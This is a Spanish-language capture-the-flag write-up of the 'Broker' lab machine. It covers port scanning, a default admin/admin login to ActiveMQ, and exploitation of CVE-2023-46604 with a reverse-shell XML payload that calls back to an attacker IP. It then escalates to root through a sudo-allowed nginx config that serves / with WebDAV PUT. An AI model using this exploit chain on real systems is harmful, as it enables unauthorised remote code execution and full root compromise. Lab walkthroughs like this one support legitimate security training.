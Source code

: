 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# ✅ Broker

`10.10.11.243 Ip`

## Realizar un escaner de puertos con nmap.

```
sudo nmap -sS -p- -Pn --open 10.10.11.243 -vvv
```

**Puertos descubiertos**&#x20;

```
───────┼───────────────────────────────────────────────────────────────────────────────────────
   1   │ PORT      STATE SERVICE     REASON
   2   │ 22/tcp    open  ssh         syn-ack ttl 63
   3   │ 80/tcp    open  http        syn-ack ttl 63
   4   │ 1883/tcp  open  mqtt        syn-ack ttl 63
   5   │ 5672/tcp  open  amqp        syn-ack ttl 63
   6   │ 8161/tcp  open  patrol-snmp syn-ack ttl 63
   7   │ 40157/tcp open  unknown     syn-ack ttl 63
   8   │ 61613/tcp open  unknown     syn-ack ttl 63
   9   │ 61614/tcp open  unknown     syn-ack ttl 63
  10   │ 61616/tcp open  unknown     syn-ack ttl 63
```

### Servicios de puertos

```
 sudo nmap -sV -p 22,80,1883,5672,8161,40157,61613,61614,61616  10.10.11.243 -vvv
```

```
PORT      STATE SERVICE    REASON         VERSION
22/tcp    open  ssh        syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http       syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
1883/tcp  open  mqtt       syn-ack ttl 63
5672/tcp  open  amqp?      syn-ack ttl 63
8161/tcp  open  http       syn-ack ttl 63 Jetty 9.4.39.v20210325
40157/tcp open  tcpwrapped syn-ack ttl 63
61613/tcp open  stomp      syn-ack ttl 63 Apache ActiveMQ
61614/tcp open  http       syn-ack ttl 63 Jetty 9.4.39.v20210325
61616/tcp open  apachemq   syn-ack ttl 63 ActiveMQ OpenWire transport
```

## Ir al navegador&#x20;

**Cuando fui al navegador a la direccion `10.10.11.243 Ip.`**

<figure><img src="../../../.gitbook/assets/SignIn.png" alt=""><figcaption></figcaption></figure>

**Realice una pruba con contraseña y usuario basica: admin y admin y logre ingresar a este sitio.**

<figure><img src="../../../.gitbook/assets/ActiveMQ.png" alt=""><figcaption></figcaption></figure>

**Hasta ahora puedo saber que utiliza el servicio ActiveMQ ,tambien lo descubrimos con nmap.**

```
   1  | 61613/tcp open  stomp      syn-ack ttl 63 Apache ActiveMQ
   2  │ 61616/tcp open  apachemq   syn-ack ttl 63 ActiveMQ OpenWire transport
```

¿Qu**e es ActiveMQ**?

Apache ActiveMQ® es el intermediario de mensajes basado en Java, multiprotocolo y de código abierto más popular. Admite protocolos estándar de la industria para que los usuarios obtengan los beneficios de las opciones del cliente en una amplia gama de idiomas y plataformas. Conéctese desde clientes escritos en JavaScript, C, C++, Python, .Net y más. Integre sus aplicaciones multiplataforma utilizando el omnipresente protocolo AMQP . Intercambie mensajes entre sus aplicaciones web usando STOMP sobre websockets. Administre sus dispositivos IoT usando MQTT . Respalde su infraestructura JMS existente y más allá. ActiveMQ ofrece el poder y la flexibilidad para admitir cualquier caso de uso de mensajería.

{% embed url="https://activemq.apache.org/" %}

**Realizando una busqueda mas profunda descubri la vulnerabilidad CVE-2023-46604 de ActiveMQ con la version 5.15.15.**

{% embed url="https://nvd.nist.gov/vuln/detail/CVE-2023-46604?ref=blog.ecoit.com.br" %}

{% embed url="https://mvnrepository.com/artifact/org.apache.activemq/apache-activemq/5.15.15" %}

**La vulnerabilidad de trata de una ejecucion remota.**

**En github existe el codigo para poder explotar esa vulnervilidad.**

{% embed url="https://github.com/rootsecdev/CVE-2023-46604" %}

**Se hace un git clone.**

<figure><img src="../../../.gitbook/assets/Arch.png" alt=""><figcaption></figcaption></figure>

**Se modifica el archivo poc-linux.xml.**

````xml
```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="
 http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
        <list>
            <value>bash</value>
            <value>-c</value>
            <!-- This command will give a reverse shell on port 9001. HTML Entity Encoded. Change IP as needed -->
            <value>bash -i &#x3E;&#x26; /dev/tcp/10.10.14.70/9001 0&#x3E;&#x26;1</value>
        </list>
        </constructor-arg>
    </bean>
</beans>

```
````

**Iniciamos un servidor HTTP Python3 en segundo plano e iniciamos un oyente Netcat.**

```
python -m http.server 
nc -lvvp 9001
```

**Luego se ejecuta el codigo.**

```go
go run main.go -i 10.10.11.243 -p 61616 -u http://10.10.14.70:8000/poc-linux.xml
```

<figure><img src="../../../.gitbook/assets/terminal.png" alt=""><figcaption></figcaption></figure>

**Navegamode por los directorios hasta encontrar user.txt que tiene la primer bandera.**

<figure><img src="../../../.gitbook/assets/Primer.png" alt=""><figcaption></figcaption></figure>

## **Escalada de privilegios.**

**Hacemos un `sudo -l`**&#x20;

<figure><img src="../../../.gitbook/assets/Ruta.png" alt=""><figcaption></figcaption></figure>

**Eso demuestra que se puede ejecutar con sudo nginx.**

**Ahora navegamos a la carpeta /home ,y copiamos el archivo /etc/nginx/nginx.conf a /tmp y debemos editarlo.**

```nginx
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
worker_connections 768;
}
http {
server {
listen 1337;
root /;
autoindex on;
dav_methods PUT;
}
}
```

**En mi caso yo cree el archivo en mi computadora.**

```bash
nvim pw.conf
```

**Luego abri un puerto en la mis carpeta.**

```python
python -m http.server 2000
Serving HTTP on 0.0.0.0 port 2000 (http://0.0.0.0:2000/) ...
10.10.11.243 - - [29/Nov/2023 16:54:10] "GET /pw.conf HTTP/1.1" 200 -
```

**Realice un wget en la carpeta /tmp de la victima.**

```bash
activemq@broker:/tmp$ wget http://10.10.16.20:2000/pw.conf
wget http://10.10.16.20:2000/pw.conf
--2023-11-29 16:56:24--  http://10.10.16.20:2000/pw.conf
Connecting to 10.10.16.20:2000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 158 [text/plain]
Saving to: ‘pw.conf’

     0K                                                       100% 13.6M=0s

2023-11-29 16:56:28 (13.6 MB/s) - ‘pw.conf’ saved [158/158]
```

**Active nginx pasando en pw.conf.**

```bash
activemq@broker:/tmp$ sudo nginx -c /tmp/pw.conf
sudo nginx -c /tmp/pw.conf
```

**Luego realice el curl para leer el contenido root.txt ultima bandera.**

<figure><img src="../../../.gitbook/assets/Ultima.png" alt=""><figcaption></figcaption></figure>

